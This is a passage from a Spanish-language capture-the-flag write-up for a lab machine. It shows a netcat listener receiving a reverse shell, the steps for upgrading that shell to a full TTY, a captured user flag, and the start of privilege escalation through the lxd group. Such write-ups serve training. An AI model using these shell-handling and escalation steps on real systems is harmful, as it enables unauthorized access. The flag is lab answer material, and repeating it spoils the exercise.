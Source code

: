 Recibimos la `shell`

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.2.28.226] from (UNKNOWN) [10.10.67.41] 34574
bash: cannot set terminal process group (1426): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ whoami
whoami
namelessone
namelessone@anonymous:~$ 
```

Tratamiento de la `tty` para poder hacer `CTRL+C`

```bash
namelessone@anonymous:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
namelessone@anonymous:~$ ^Z    
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
							  reser xterm
ENTER
```

```bash
namelessone@anonymous:~$ export TERM=xterm
namelessone@anonymous:~$ echo $SHELL
/bin/sh
namelessone@anonymous:~$ export SHELL=bash
namelessone@anonymous:~$ 
```

## Userflag

```bash
namelessone@anonymous:~$ cat user.txt 
90d6f992585815ff991e68748c414740
namelessone@anonymous:~$ 
```

## Escalada de privilegios

De primeras vemos que estamos en el grupo `lxd`

```bash
namelessone@anonymous:~$ id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
namelessone@anonymous:~$ 
```
